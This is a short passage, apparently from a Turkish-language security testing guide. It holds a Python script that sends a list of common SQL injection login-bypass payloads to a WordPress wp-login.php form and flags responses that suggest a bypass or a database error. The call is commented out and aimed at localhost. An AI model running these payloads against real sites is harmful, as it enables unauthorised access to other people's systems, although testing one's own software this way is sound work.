```python
```

#### 2. SQL Injection Test Scripti
```python
import requests
from urllib.parse import urlencode

def test_sql_injection(target_url):
    """
    WordPress login formunda SQL injection açığı test eder
    """
    print("SQL Injection test başlatılıyor...")
    
    # Yaygın SQL injection payloadları
    payloads = [
        "' OR '1'='1",
        "' OR '1'='1' --",
        "' OR '1'='1' /*",
        "admin'--",
        "admin' #",
        "admin'/*",
        "' or 1=1#",
        "' or 1=1--",
        "') or '1'='1--",
        "') or ('1'='1--"
    ]
    
    login_url = f"{target_url}/wp-login.php"
    
    for payload in payloads:
        data = {
            'log': payload,
            'pwd': 'test',
            'wp-submit': 'Log In'
        }
        
        try:
            response = requests.post(login_url, data=data, timeout=10)
            
            # Başarılı giriş veya SQL hatası kontrolü
            if any(indicator in response.text.lower() for indicator in [
                'dashboard', 'wp-admin', 'mysql', 'sql syntax', 'database error'
            ]):
                print(f"⚠️  Potansiyel SQL Injection: {payload}")
                
        except requests.RequestException as e:
            print(f"Bağlantı hatası: {e}")

# test_sql_injection('http://localhost:8080')
```
